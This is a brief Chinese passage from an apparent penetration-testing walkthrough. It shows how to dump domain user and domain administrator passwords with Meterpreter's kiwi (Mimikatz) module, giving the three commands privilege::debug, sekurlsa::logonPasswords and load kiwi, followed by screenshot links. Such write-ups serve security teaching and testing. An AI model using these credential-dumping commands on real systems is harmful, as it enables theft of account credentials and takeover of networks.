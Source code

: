 抓取域用户密码  
使用 meterpreter 上的 kiwi 模块尝试抓取域用户及域管理员的密码：

```bash
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

[![](assets/1708094050-80a9c346e71784c616e356b1d973bdc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150654-34617e12-1002-1.png)

[![](assets/1708094050-ef66d7ff6cf2662e790ecb3f80b780aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150659-3759027a-1002-1.png)
